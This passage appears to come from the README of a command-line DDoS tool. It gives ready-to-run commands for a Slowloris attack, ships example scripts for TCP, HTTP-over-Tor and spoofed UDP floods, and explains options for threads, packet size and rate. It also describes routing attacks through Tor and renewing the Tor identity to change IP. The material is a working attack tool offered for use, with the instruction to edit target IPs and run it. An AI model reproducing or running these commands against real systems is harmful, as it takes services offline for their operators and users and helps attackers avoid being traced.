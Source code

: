 #### Slowloris Attack
```bash
./target/release/ddos-attack layer7 \
  --targets "https://example.com" \
  --threads 300 \
  --slowloris

# The tool will ask:
# 🔒 Do you want to use Tor for anonymity? (y/N): 
```

### 3. Tor Management

```bash
# Start Tor service
./target/release/ddos-attack tor --start

# Renew Tor identity (change IP)
./target/release/ddos-attack tor --renew

# Stop Tor service
./target/release/ddos-attack tor --stop
```

## Examples Folder Usage

The `examples/` folder contains pre-configured attack scripts for common scenarios:

### Available Example Scripts:
1. **`tcp_flood.sh`** - Basic TCP flooding attack
2. **`http_flood_tor.sh`** - HTTP attack through Tor network
3. **`slowloris.sh`** - Slowloris connection exhaustion attack
4. **`udp_spoof.sh`** - UDP flooding with IP spoofing (requires root)

### How to Use Examples:
```bash
# Make examples executable
chmod +x examples/*.sh

# Run a specific example
./examples/tcp_flood.sh

# Or run with root for spoofing examples
sudo ./examples/udp_spoof.sh
```

**Note**: Edit the target IPs and parameters in the example scripts before running!

## Command Options Explained

### Layer 4 Options:
- `--targets`: Target IP addresses (comma-separated)
- `--ports`: Target ports (comma-separated)  
- `--protocol`: Attack protocol (`tcp` or `udp`)
- `--threads`: Number of concurrent threads (default: 100)
- `--size`: Packet size in bytes (default: 1024)
- `--rate`: Packets per second (default: 1000)

